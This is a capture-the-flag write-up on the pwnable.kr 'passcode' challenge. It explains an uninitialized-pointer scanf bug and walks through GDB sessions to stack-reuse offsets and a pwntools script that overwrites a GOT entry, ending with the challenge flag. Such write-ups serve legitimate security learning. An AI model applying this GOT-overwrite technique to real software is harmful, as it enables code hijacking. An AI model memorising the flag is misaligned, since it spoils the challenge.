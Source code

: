 ```yaml
---
title: "Pwnable.kr - passcode"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/pwnable.png
ribbon: red
description: "This challenge was a bit frustrating at first so let's go easy.
First there is a call to `welcome()` which takes 100 characters of input and prints a welcome message, nothing wrong with it.
After that we have a call to `login()` which reads..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Mommy told me to make a passcode based login system.
> My initial C code was compiled without any error!
> Well, there was some compiler warning, but who cares about that?




```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
	scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
		printf("Login OK!\n");
		system("/bin/cat flag");
	}
	else {
		printf("Login Failed!\n");
		exit(0);
	}
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

This challenge was a bit frustrating at first so let's go easy.

First there is a call to `welcome()` which takes 100 characters of input and prints a welcome message, nothing wrong with it.

After that we have a call to `login()` which reads two integers (or it was intended to do that), then compares them with two constants and if they match we get the flag.

If you compiled this code you will get:

```
warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’
```

That's a very famous `C` warning, the code is passing the variable itself instead of a pointer to it which will cause an arbitrary memory write and might cause an access violation.

if we run the program and enter two numbers we will get a segmentation fault:

```
$ ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : test
Welcome test!
enter passcode1 : 1
enter passcode2 : 1
Segmentation fault (core dumped)
```

The first `scanf()` for `passcode1` works just fine, we are writing to an arbitrary memory location but it somehow passed.

If only we could control where to write, we can overwrite any GOT entry with the address of the assembly instructions that calls `system("/bin/cat flag")` and we are done. 

Time for GDB:

```
gef➤  disassemble login 
Dump of assembler code for function login:
.....
   0x0804857c <+24>:	mov    edx,DWORD PTR [ebp-0x10]
   0x0804857f <+27>:	mov    DWORD PTR [esp+0x4],edx
   0x08048583 <+31>:	mov    DWORD PTR [esp],eax
   0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:	mov    eax,ds:0x804a02c
.....

gef➤  b *0x0804857c
Breakpoint 1 at 0x804857c

gef➤  r
Starting program: /home/night-wolf/Downloads/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : test
Welcome test!

gef➤  x/xw $ebp-0x10
0xffffd018:	0xffffd074
```

As you can see, $ebp-0x10 which is the variable `passcode1` is pointing to `0xffffd074` (the address scanf() is writing to).

The trick of this challenge is that after a function stack frame is destroyed, the next function will start at the same base pointer:

```
 Func1
-------
| esp |
| ... |		 Func2
| ... |		-------
| ... |		| esp |
| ... |		| ... |
| ... |		| ... |
| ebp |		| ebp |		same base pointer
-------		-------				
```

Now it's time to make use of `welcome()` function, some values of the `input` array will be at the stack frame of `login()` function, we can use `pwn cyclic` to generate a pattern of 100 characters and fill the `input` array to see what happens.

```
$ pwn cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

```
gef➤  r
Starting program: /home/night-wolf/Downloads/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Welcome aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa!

gef➤  x/20xw $esp
0xffffd000:	0x61616173	0x61616174	0x61616175	0x61616176
0xffffd010:	0x61616177	0x61616178	0x61616179	0xac31af00
0xffffd020:	0xf7fa5000	0xf7fa5000	0xffffd048	0x08048684
0xffffd030:	0x080487f0	0x00000000	0x080486a9	0x00000000
0xffffd040:	0xf7fa5000	0xf7fa5000	0x00000000	0xf7ddafb9

gef➤  x/xw $ebp-0x10
0xffffd018:	0x61616179
```

As you can see, some values of `input` are still present in the `login()` stack frame, and also the `passcode1` variable is overwritten with these values. To know the offset of these values from the beginning of the `input` array we can use `pwn cyclic` again with the value `0x61616179` which is the string `yaaa` (remember little endianness).

```
$ pwn cyclic -l yaaa
96
```

The value of `passcode1` is overwritten by input[96] to input[99], unfortunately these are the last 4 bytes of `input` array so we cannot overwrite `passcode2` (it would be too easy).

Back to our plan, now we have the ability to write to any arbitrary memory location we want, let's overwrite some GOT entries :)

Using objdump we can get the addresses of the GOT entries:

```
$ objdump -R passcode 

passcode:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin@@GLIBC_2.0
0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0
0804a008 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   system@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   __gmon_start__
0804a018 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7
```

The address of `fflush()` which is `0x0804a004` seems good, it doesn't contain any bad characters like `\x00 or \x0a`.

Now to get the address of the assembly instructions that calls `system("/bin/cat flag")`:

```
gef➤  disassemble login
.....
   0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:	call   0x8048460 <system@plt>
.....
```

It's at `0x080485e3`, now get have all the pieces to complete this challenge. Remember that we need to send this address as a number string not as hex values.

# Solution:

```python
# solve.py

from pwn import *

buf = ""
buf += 'A' * 96		# offset to passcode1 
buf += p32(0x0804a004)	# passcode1 pointing to fflush GOT entry
buf += str(0x080485e3)	# send as a number not an address

print(buf)
```

```
$ python /tmp/solve.py | ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

Flag: `Sorry mom.. I got confused about scanf usage :(`